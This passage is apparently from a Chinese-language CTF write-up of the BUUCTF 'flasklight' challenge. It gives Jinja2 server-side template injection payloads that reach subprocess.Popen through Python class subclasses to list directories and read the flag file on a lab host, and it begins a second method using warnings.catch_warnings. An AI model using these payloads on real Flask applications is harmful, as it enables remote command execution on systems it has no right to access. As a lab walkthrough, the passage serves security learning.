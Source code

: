 ```py
    except:
        continue
print("indexo of subprocess.Popen:" + str(index))

```

>   **跑完可以得下标的值为258**,使用如下命令获取根目录文件名称

```
http://454fe7fb-8c9b-4941-ad6b-dc265fb5fc9a.node4.buuoj.cn:81/?search={{''.__class__.__mro__[2].__subclasses__()[258]('ls',shell=True,stdout=-1).communicate()}}
```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107101258.png)

>   可以发现路径前面都多了一个\n，然后可以在末尾添加strip()去除，communicate()的执行结果是一个列表

```shell
http://454fe7fb-8c9b-4941-ad6b-dc265fb5fc9a.node4.buuoj.cn:81/?search={{''.__class__.__mro__[2].__subclasses__()[258]('ls',shell=True,stdout=-1).communicate()[0].strip()}}
```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107101653.png)

>   查看一下flasklight 目录

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107101812.png)

>   查看coomme_geeeett_youur_flek

```shell
http://454fe7fb-8c9b-4941-ad6b-dc265fb5fc9a.node4.buuoj.cn:81/?search={{''.__class__.__mro__[2].__subclasses__()[258]('cat flasklight/coomme_geeeett_youur_flek',shell=True,stdout=-1).communicate()[0].strip()}}
```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107101913.png)

>   参考文章：
>
>   https://blog.csdn.net/mochu7777777/article/details/107589811

## 2、解法二

>   使用列表，通过列表获取object的所有属性。`__base__获取所继承的基类名`

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107110036.png)

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107110119.png)



>   通过上面的那个脚本寻找`warnings.catch_warnings`的位置，**可以发现位置在59位**
>
>   这个`warnings.catch_warnings`是不含os模块的类，所以在使用的时候需要`import os`模块
